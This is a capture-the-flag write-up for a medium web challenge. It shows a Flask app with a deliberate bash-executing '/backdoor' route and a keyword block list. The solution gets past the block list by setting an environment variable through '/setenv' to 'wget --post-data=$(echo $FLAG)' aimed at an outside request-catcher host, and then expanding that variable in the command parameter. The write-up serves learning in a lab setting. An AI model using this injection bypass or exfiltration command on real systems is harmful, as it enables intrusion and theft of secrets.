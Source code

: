 # Cig 2
### Web - Medium

- This one is a bit harder! they have blocked all built-in linux commands `/blocked`so we can't use these in `/backdoor` but!
- ![47f95716848315b0c7f91be5f1024e18.png](47f95716848315b0c7f91be5f1024e18.png)

<details>
<summary>Reveal Code</summary>
    
```python

from flask import Flask, render_template, request, redirect
import subprocess
import os
from string import printable

app = Flask(\_\_name\_\_)

blocked = open("blocked.txt", "r").read().split("\\n")


@app.route("/blocked", methods=\["GET"\])
def getBlocked():
    return render\_template("hello.html", source\_code="\\n".join(blocked))


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def cmd():
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    for b in blocked:
        if b in cmd:
            os.system(f'echo "{b}" > /tmp/found')
            return redirect("/")
    os.system(f'echo "{cmd}" > /tmp/log.txt')
    output = os.system(f'bash -c "{cmd}"')
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 5001))
    app.run(debug=False, host="0.0.0.0", port=port)

```
</details>

- ![24b0ea9bbab2dbf0ade2386350ca0df8.png](24b0ea9bbab2dbf0ade2386350ca0df8.png)
- Here is the trick! using **env vars** we can assign env vars to texts/commands we like so we can bypass this 
- Now we will use `/setenv` but we can also assign 1 var to our full command!
- Step 1: `/setenv?var=v1&value=wget --post-data=$(echo $FLAG) ayham.requestcatcher.com`
- Step 2: `/backdoor?cmd=${v1}`
- EZ!
- ![7548e6c2026e5af4ddedd9dcbdf33867.png](7548e6c2026e5af4ddedd9dcbdf33867.png)
- However it took me a while bec I actually splitted my cmd into multiple env vars and failed at some and forgot some logic but here is the simplest solution!
- VOILA!!!
